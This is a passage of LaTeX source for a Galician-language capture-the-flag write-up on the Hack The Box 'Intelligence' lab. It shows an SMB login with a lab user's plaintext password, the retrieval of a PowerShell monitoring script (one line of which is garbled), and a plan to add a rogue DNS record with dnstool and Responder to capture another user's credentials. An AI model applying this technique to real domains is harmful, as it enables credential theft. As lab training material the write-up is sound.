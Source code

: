 \documentclass[a4paper]{article}
\newcommand{\ipLocal}{10.10.14.12}
\begin{document}
Investigamos nos recursos compartidos do usuario \textbf{Tiffany.Molina}:
        \begin{lstlisting}[language=Bash, caption=Powershell]
$ smbclient -U'intelligence.htb/Tiffany.Molina%NewIntelligenceCorpUser9876'  //10.10.10.248/IT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 07:50:55 2021
  ..                                  D        0  Mon Apr 19 07:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 07:50:55 2021

		3770367 blocks of size 4096. 1265474 blocks available
smb: \> get downdetector.ps1
getting file downdetector.ps1 of size 1046 as downdetector.ps1 (2,3 KiloBytes/sec) (average 2,3 KiloBytes/sec)
smb: \> exit\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=downdetector.ps1: user Ted.Graves, linewidth=17.7cm]
$ cat downdetector.ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | 
Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' 
-Subject "Host: $($record.Name) is down"
}
} catch {}
}\end{lstlisting}             

Vendo o contido de \textbf{downdetector.ps1} parece que dalgunha forma se facemos que un \textbf{rexistro dns} veña á nosa máquina enviaramos as credenciais do usuario \textbf{Ted Graves}. Agora, como facer iso do dns?
        
        \clearpage
        \subsubsection{Xerar entrada DNS}                                                                                                               
Imos xerar unha entrada dns para que apunte á nosa máquina \ipLocal mediante: dnstool + responder
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese: dnstool,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
        \centering
\$ git clone https://github.com/dirkjanm/krbrelayx.git\end{tcolorbox}
\end{document}
